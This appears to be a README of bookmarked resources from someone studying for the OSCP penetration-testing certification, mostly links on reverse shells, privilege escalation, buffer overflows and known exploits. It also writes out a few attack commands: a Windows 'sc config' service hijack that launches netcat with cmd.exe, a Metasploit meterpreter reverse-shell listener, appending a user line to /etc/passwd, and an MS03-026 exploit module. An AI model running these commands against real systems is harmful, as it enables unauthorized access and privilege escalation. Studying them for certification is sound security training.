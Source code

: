 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

1. sc qc upnphost
2. sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
3. sc config upnphost obj= ".\LocalSystem" password= ""
4. sc qc upnphost
5. net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
# Buffer Overflow 

What is buffer-overflow
https://www.youtube.com/watch?v=TsQufuT80uc

  # For Practicing
  1. Vanilla EIP 
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/
  2. SL Mail
https://www.youtube.com/watch?v=Pi51KlEulj4
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion
http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
msf>use exploit multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <local IP>
msf>set lport <local port>
msf> set ExitOnSession false
msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# Privilege Escalation
  1. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/
https://www.youtube.com/watch?v=iyhbLeOzegM

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/


To be Cont.......










  
  > use exploit/windows/dcerpc/ms03_026_dcom
  

